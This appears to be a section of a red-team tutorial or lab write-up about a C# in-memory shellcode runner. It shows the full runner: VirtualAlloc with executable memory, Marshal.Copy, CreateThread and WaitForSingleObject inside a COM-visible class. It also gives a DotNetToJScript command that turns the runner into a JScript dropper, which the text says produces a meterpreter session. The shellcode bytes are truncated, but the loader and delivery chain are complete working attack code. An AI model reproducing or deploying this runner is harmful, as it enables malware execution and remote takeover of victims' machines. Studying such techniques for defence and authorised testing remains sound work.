

## The ol' trilogy 
 We can reuse the shellcode runner technique from both VBA and PowerShell and combine _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ to execute shellcode in memory.

 We start by importing the 3 Win32 APIs with DLLImport.

 ```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

We then generate our shellcode and store it in a variable.
We then use _Marshal.Copy_ method to copy our shellcode:
 ```C#
byte[] buf = new byte[626] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8...

int size = buf.Length;

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(buf, 0, addr, size);
```

And finish off by using _CreateThread_ and _WaitForSingleObject_ API to finish the execution:
```C#
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);
```

## Placement
For the placement for the above pieces of code it would look something like as follows:
```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    

	public TestClass()
    {
        byte[] buf = new byte[602] {
        0xfc,0x48,.....0xff,0xd5 };

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}


```

We then compile the binary as jscript:
```cmd
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

Executing the shell we get a meterpreter session on our attack machine:
